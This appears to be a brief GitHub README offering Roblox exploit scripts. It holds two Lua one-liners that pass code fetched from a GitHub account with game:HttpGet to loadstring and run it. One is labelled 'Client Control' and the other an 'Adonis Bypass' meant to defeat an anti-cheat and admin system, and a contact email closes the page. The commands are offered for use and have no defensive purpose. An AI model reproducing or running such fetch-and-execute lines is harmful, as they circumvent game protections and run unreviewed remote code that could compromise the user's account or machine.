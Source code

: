 # Roblox

## Client Control

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/FileExpIorer/LuaU/main/Api/commands.lua"))()
```

## Adonis Bypass

```lua
--> NOT MINE!
loadstring(game:HttpGet("https://github.com/FileExpIorer/LuaU/blob/main/Codes/adonis.lua"))()
```

Email:

- FileExpIorer@proton.me
